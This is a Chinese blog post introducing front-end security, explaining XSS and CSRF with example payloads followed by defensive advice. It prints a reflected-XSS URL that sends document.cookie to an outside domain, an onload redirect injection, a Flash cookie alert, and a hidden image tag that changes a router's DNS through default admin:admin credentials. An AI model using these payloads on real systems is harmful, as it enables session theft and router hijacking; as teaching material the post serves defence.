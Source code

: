 ```yaml
---
layout: post
title: 前端安全的那些事
---
```


> Ajax的兴起，带了前端技术的飞速发展，安全问题已经悄悄的从服务端转了前端。

常见的攻击手段有：

+ XSS（跨站脚本攻击）
+ CSRF(伪造请求攻击)

##XSS（跨站脚本攻击）##

###往web页面里插入恶意的html代码###

####页面中输入DOM节点####

{% highlight html %}
<img src="xxx.gif" onload="window.location.href='johnqing.github.io'">
{% endhighlight %}

####页面中输入js脚本####

{% highlight javascript %}
window.location.href='johnqing.github.io'
{% endhighlight %}

如果用户在，用户信息等form表单中输入

{% highlight javascript %}
window.location.href='johnqing.github.io'
{% endhighlight %}

就会造成用户打开该页面就会执行自动跳转

####基于字符集的XSS####

用户在添加表单时，可输入如下代码：

{% highlight html %}
<p>
{% endhighlight %}

就可能造成页面错乱

###当用户浏览当前页面时，页面中html代码会被执行###

某网站的一个请求地址 和 页面中代码如下：

http://X.com/search.asp?q=ssss

{% highlight php %}
搜索结果：<?php $_GET('q') ?>
{% endhighlight %}

好了，俺偷偷伪造一个请求发送给该网站

http://X.com/search.asp?q=<script>window.open("http://johnqing.github.io.cn?cookie="+document.cookie)</script>

瞬间，他的cookie信息，都在这了。

###Flash XSS攻击###

当然flash作为web里一直存在的东东，当然也可以攻击。Flash中的getURL()动作，它可以使我们的页面重定向到函数指定的页面。

{% highlight javascript %}
getURL('javascript:alert(document.cookie)');
{% endhighlight %}

哈哈 cookie又在我这了。。

###未经验证的跳转造成的跨站###

服务端做302跳转时，跳转的地址来自用户，攻击者 可以输入一个恶意的网址进行跳转来执行脚本。

看了上面的内容，亲们肯定会想到，可以用上面的代码，实现一个钓鱼网站了。（ps：千万别干。。干了也别说我告诉你的。。）

####XSS漏洞修复####

原则：不相信客户输入的数据
注意: 攻击代码不一定在 `<script></script>` 中

将重要的cookie标记为http only, 这样的话Javascript 的document.cookie语句就不能获取到cookie了.
只允许用户输入我们期望的数据。例如：年龄的textbox中，只允许用户输入数字。 而数字之外的字符都过滤掉。
对数据进行Html Encode 处理
过滤或移除特殊的Html标签， 例如: `<script>` , `<iframe>` ,  `< for <` , `> for >` , `" for`
过滤JavaScript 事件的标签。例如 `"onclick="` , `"onfocus"` 等等。

##CSRF(伪造请求攻击)##

这个例子比较典型了，前几天看到一个同学发了一个他中招的东西，访问一个网站时，它会把你路由器DNS修改为Google 提供的 `8.8.8.8`。
这就是典型的伪造请求攻击。

代码如下：

{% highlight html %}
<img style="display: none; " src="http://admin:admin@192.168.1.1/userRpm/LanDhcpServerRpm.htm?dhcpserver=1&amp;ip1=192.168.1.100&amp;ip2=192.168.1.199&amp;Lease=120&amp;gateway=0.0.0.0&amp;domain=&amp;dnsserver=&amp;dnsserver=8.8.8.8&amp;dnsserver2=8.8.8.8&amp;Save=%B1%A3+%B4%E6">
{% endhighlight %}

可以想象一下，假如你访问的是你的银行账户，而且丫也支持 `GET` 请求，很容易就会被攻击者利用这种漏洞，从账户中把钱拿出来

还有请勿调用第三的文件。

因为如果该文件被加入了攻击性脚本，你整个网站基本都会沦陷。

####CSRF的防御####

1. 限制验证cookie的到期时间。cookie的合法时间越短，黑客利用你的Web应用程序的机会就越小。
2. 验证码。每次的用户提交都需要用户在表单中填写一个图片上的随机字符串。这个方案可以完全解决CSRF，听闻是验证码图片的使用涉及了一个被称为MHTML的Bug，可能在某些版本的微软IE中受影响。
3. 用户在进行重要业务前输入口令。这可以防止黑客发动CSRF攻击（只要浏览器中没有包含口令），因为这种重要信息无法预测或轻易获得。
4. 使用定制的HTTP头。验证是否符合当前请求头。
5. 只允许GET请求检索数据，但是不允许它修改服务器上的任何数据。
